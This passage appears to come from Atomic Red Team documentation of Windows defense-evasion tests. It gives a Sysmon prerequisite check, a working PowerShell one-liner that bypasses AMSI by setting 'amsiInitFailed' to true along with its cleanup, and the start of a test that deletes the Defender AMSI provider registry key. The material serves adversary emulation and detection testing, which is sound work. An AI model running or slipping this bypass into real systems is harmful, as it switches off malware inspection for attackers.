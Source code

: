##### Description: Sysmon must be installed
##### Check Prereq Commands:
```powershell
if(cmd /c sc query sysmon) { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
cmd /c sysmon -i -accepteula
```




<br/>
<br/>

## Atomic Test #13 - AMSI Bypass - AMSI InitFailed
Any easy way to bypass AMSI inspection is it patch the dll in memory setting the "amsiInitFailed" function to true.
Upon execution, no output is displayed.

https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

**Supported Platforms:** Windows


**auto_generated_guid:** 695eed40-e949-40e5-b306-b4031e4154bd






#### Attack Commands: Run with `powershell`! 


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Cleanup Commands:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$false)
```





<br/>
<br/>

## Atomic Test #14 - AMSI Bypass - Remove AMSI Provider Reg Key
With administrative rights, an adversary can remove the AMSI Provider registry key in HKLM\Software\Microsoft\AMSI to disable AMSI inspection.
This test removes the Windows Defender provider registry key. Upon execution, no output is displayed.
Open Registry Editor and navigate to "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\" to verify that it is gone.
